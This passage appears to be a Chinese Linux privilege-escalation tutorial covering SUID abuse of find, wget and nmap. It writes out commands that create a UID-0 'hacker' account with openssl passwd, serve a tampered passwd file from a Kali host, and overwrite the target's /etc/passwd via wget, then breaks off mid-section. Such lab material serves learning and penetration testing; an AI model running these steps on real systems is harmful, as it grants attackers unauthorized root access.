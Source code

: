![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibgkvdlKq9QEwr2m9u9IficwnLouG8ZcsJTfhnatDDfY1pgC6ME9Bkhmg/640?wx_fmt=jpeg)

如果 find 以 SUID 权限运行，所有通过 find 执行的命令都会以 root 权限运行

通过 find 命令给 wget 命令提供 SUID 权限

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibouzP0GOKMjle5DfdEeibMKBictKic5kqnzlWVzoyLLzIECEwtysSbx0AA/640?wx_fmt=jpeg)

通过 OpenSSL passwd 生成一个新的用户 hacker，密码为 hack123

```
openssl passwd -1 -salt hacker hack123
$1$hacker$0vnQaCNuzDe3w9d6jHfXQ0
```

将其追加到 kali 的 / etc/passwd 文件中

将

```
hacker:$1$hacker$0vnQaCNuzDe3w9d6jHfXQ0:0:0:/root:/bin/bash
```

追加到 passwd 中  

在 Kali 上启动一个 python 服务器

python -m SimpleHTTPServer 8000

将 Kali 上的 passwd 文件下载到靶机 etc 目录下并覆盖原来的 passwd 文件

```
wget -O passwd http://10.10.10.128:8000/passwd
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibPicZqOB36aibd0ZG4G4ZCAyo2Fbs9ZS51VjJ4A5EtHutbdmFzoa5Wnicw/640?wx_fmt=jpeg)

然后切换到 hacker 用户即可，

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibFkfUtVpt0LegZ6N8l7q9jgTvvGsBU4YPjZv8vA4nYNlomSIyBeTr2w/640?wx_fmt=jpeg)

nmap 提权
-------

### 实例 1

nmap 被 suid 分配了 root 权限；

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaib2MAnunggm4PfI6TtFtL4KvzAwdhuNfPGeUJe4VRZyvkYcArCE4NUlg/640?wx_fmt=jpeg)

用 nmap 来提权；

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR39nqPqTZUdeFh0uiblOwBlaibUMyySSm9iaHDCKpR9Uonhv6cEfOgbovk3PibXyqBySaPszaHiaxKvxOLA/640?wx_fmt=jpeg)

### 实例 2

当单个用户被分配了 root 权限时，
